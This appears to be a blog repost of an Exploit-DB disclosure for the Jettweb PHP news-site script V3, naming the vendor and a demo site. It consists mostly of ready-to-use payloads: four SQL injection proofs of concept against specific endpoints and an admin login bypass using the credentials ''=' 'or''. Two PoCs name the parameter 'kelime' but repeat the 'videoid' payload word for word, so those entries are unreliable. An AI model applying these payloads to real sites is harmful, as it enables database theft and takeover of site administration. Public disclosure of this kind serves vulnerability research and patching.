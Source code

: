 ```yaml
---
layout:     post
title:      "Jettweb Haber Sitesi V3 - Multiple Vulnerabilities"
date:       2019-03-25 12:39
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, authentication bypass, exploit-db]
---
```


# Exploit Title: Jettweb PHP Hazır Haber Sitesi Scripti V3 - Multiple Vulnerabilities
# Date: 25.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://jettweb.net/u-16-php-hazir-haber-sitesi-scripti-v3.html
# Demo Site: http://haberv3.proemlaksitesi.net
# Version: V3
# Tested on: Kali Linux
# CVE: N/A

----- PoC 1: SQLi -----

Request: http://localhost/[PATH]/fonksiyonlar.php
Vulnerable Parameter: videoid (GET)
Payload: fgit=videoyorumlar&videoid=1' UNION ALL SELECT
NULL,NULL,NULL,NULL,NULL,CONCAT(CONCAT('qvzqq','LtSqAGUtJGxRGVrFfaFBRmvYYHCMdjkRYqQBbQfc'),'qqkjq'),NULL,NULL--
Kcmb

----- PoC 2: SQLi -----

Request: http://localhost/[PATH]/kelimeara
Vulnerable Parameter: kelime (POST)
Payload: fgit=videoyorumlar&videoid=1' UNION ALL SELECT
NULL,NULL,NULL,NULL,NULL,CONCAT(CONCAT('qvzqq','LtSqAGUtJGxRGVrFfaFBRmvYYHCMdjkRYqQBbQfc'),'qqkjq'),NULL,NULL--
Kcmb

----- PoC 3: SQLi -----

Request: http://localhost/[PATH]/datagetir.php
Vulnerable Parameter: q (GET)
Payload:
datagetir.php?deger=undefined&dog=undefined&komut=ilcegetir&q=0'XOR(if(now()=sysdate()%2Csleep(0)%2C0))XOR'Z&son=undefined


----- PoC 4: SQLi -----

Request: http://localhost/[PATH]kelimeara
Vulnerable Parameter: kelime (POST)
Payload: fgit=videoyorumlar&videoid=1' UNION ALL SELECT
NULL,NULL,NULL,NULL,NULL,CONCAT(CONCAT('qvzqq','LtSqAGUtJGxRGVrFfaFBRmvYYHCMdjkRYqQBbQfc'),'qqkjq'),NULL,NULL--
Kcmb


----- PoC 5: Authentication Bypass -----

Administration Panel: http://localhost/[PATH]/yonetim/login.php
Username: '=' 'or'
Password: '=' 'or'
            
